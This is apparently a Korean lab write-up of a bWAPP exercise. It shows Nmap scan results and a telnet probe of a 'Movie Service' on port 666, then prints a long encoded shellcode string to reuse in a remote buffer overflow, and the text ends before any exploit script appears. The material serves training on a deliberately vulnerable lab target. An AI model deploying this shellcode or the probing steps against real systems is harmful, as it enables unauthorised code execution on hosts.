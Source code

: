 ```bash
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
666/tcp  open  doom
3306/tcp open  mysql
5901/tcp open  vnc-1
6001/tcp open  X11:1
8080/tcp open  http-proxy
8443/tcp open  https-alt
9080/tcp open  glrpc
MAC Address: 00:0C:29:7B:42:F7 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.38 seconds
```

* **666 doom**이 딱 봐도 이상해 보여서 조사하기

### 2. telnet으로 포트 서비스 확인하기

```bash
root@ming:~/바탕화면# telnet 192.168.190.143 666
Trying 192.168.190.143...
Connected to 192.168.190.143.
Escape character is '^]'.
hi
*** bWAPP Movie Service ***
Matching movies: 0
Connection closed by foreign host.
```

* movie 앱을 실행해주는 포트가 맞음

> 모든 웹 사이트가 telnet으로 확인할 수 있지 않고 telnet [아이피] [포트] 입력 후 
```bash
trying...
``` 
만 뜨면 그 웹페이지는 접속 불가하고
```bash
Trying [아이피]
Connected to [아이피].
Escape character is '^]'.
```
이렇게 뜨면 접속이 가능하다.

### 3. 소켓 통신하는 파이썬 스크립트 작성

### Buffer overflow (Local)에서 이용한 shellcode

```txt
\x54\x58\x2d\x79\xfc\xfd\xfd\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x5c\x25\x01\x01\x01\x01\x25\x02\x02\x02\x02\x2d\x75\x1c\x30\x7d\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x53\xdf\x74\x2b\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x12\xca\x20\x1d\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xf0\xff\xfc\xfc\x2d\x01\x02\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xfe\xfd\xf9\x02\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xfe\xfd\xff\xf5\x2d\x01\x01\x02\x01\x2d\x01\x01\x01\x01\x50\x2d\x0c\xfe\xfa\x03\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xbc\xcd\xc3\xc7\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xfe\xf5\x02\x37\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x33\x02\x4c\xfe\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x2b\xf5\xba\x0c\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x16\x46\x61\x1e\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x78\x9a\x1a\xab\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x04\x58\x7f\xe7\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x37\xba\xf7\x66\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xca\xe7\x7e\x95\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x0f\x21\x7d\x39\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xe6\x58\x0e\x92\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50
```

